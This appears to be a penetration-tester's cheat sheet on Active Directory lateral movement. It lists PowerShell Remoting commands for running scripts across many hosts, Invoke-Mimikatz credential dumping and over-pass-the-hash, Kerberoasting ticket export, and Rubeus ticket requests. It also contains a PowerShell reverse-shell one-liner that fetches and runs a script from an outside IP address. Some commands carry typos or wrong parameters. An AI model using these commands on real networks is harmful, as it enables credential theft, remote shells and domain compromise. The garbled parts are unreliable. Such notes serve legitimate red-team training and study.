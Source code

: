 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername hostname.local\
Enter-PSSession $sess

No local file be included in Enter-PSSession/New-PSSession

**Execute commands on a machine(s) (non-interactive)**\
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}\
Invoke-Command -Computername hostname -Scriptblock {$executioncontext.sessionstate.languagemode}\
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content \<list-of-servers-file>)&#x20;

**Execute script on a machine**\
****Invoke-Command -Computername (Get-Content \<list-of-servers-file>) -FilePath  C:\scripty\a.ps1\
❗Invoke-Command -FilePath C:\scripty\a.ps1 -Session $sess\
&#x20;  Enter-PSSession -Session $sess\
&#x20;  functionname\_in\_aps1

**Execute locally loaded function on a list of remote machines**\
Invoke-Command -Scriptblock ${function:test} -Computername (Get-Content \<list\_of\_servers>)\
❗Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content \<list\_of\_servers>)

A file/function test.ps1 is creatd and . .\test.ps1 With the content

function test\
{\
&#x20;Write-Output "Test" \
}

then run "test"  => Then we can run Invoke-Command -Scriptblock ${function:test} -Computername a\_host

**Execute locally loaded function on a list of remote machines & passing arguemnts (only positional arguments could be passed)**\
****Invoke-Command -ScriptBlock ${fucntion:getPassHashes} -Hostname a\_host -ArgumentList



Use "Stateful" command using Invoke-Command:\
$sess = New-PSSession -computername host1\
Invoke-Command -session $sess -ScriptBlock {$Proc = Get-Process}\
Invoke-Command -session $sess -ScriptBlock {$Proc.Name}



**Copy script to other server**\
****Copy-Item .\Invoke-MimikatzEx.ps1 \\\hostname\c$\\'Program Files'

**Powershell reverse shell**\
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000\
****

## Mimikatz - Invoke-Mimikatz

* Dump credentials, tickets, passing & replaying hashes
* Using the code from ReflectivePEInjection mimikatz is loaded reflectively into memory.
* Administrative Privilege is needed for reading/writing to lsass e.g. dumping creds

**Dump credentials on local/remote machine**\
****Invoke-Mimikatz -DumpCreds   //default parameter\
****Invoke-Mimikatz -DumpCreds -Computername @("host1","host2")    //uses PowerShell remoting cmdlet Invoke-Command (need local admin privs on remote host)

**Write to lsass / "over pass the hash" - generate tokens from hashes (we have the hash for the User specified)**\
****Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /domain:dom.local /ntlm:\<ntlmhash> /run:powershell.exe"'

Creates a valid kerberos ticket using the ntlm hash of a user. Authenticate to Kerberos enabled Services afterfwards.

## **🍳Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - **** Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel\
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"

**Dump the ticket**\
Invoke-Mimikatz -Command '"kerberos::list /export"'

\=> Now Crack

## ⏩Over-Pass the Hash

### Description



### Attack commands

Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> \[/domain:DOMAIN] \[/opsec] /ptt

Invoke-Mimikatz '"sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe'"



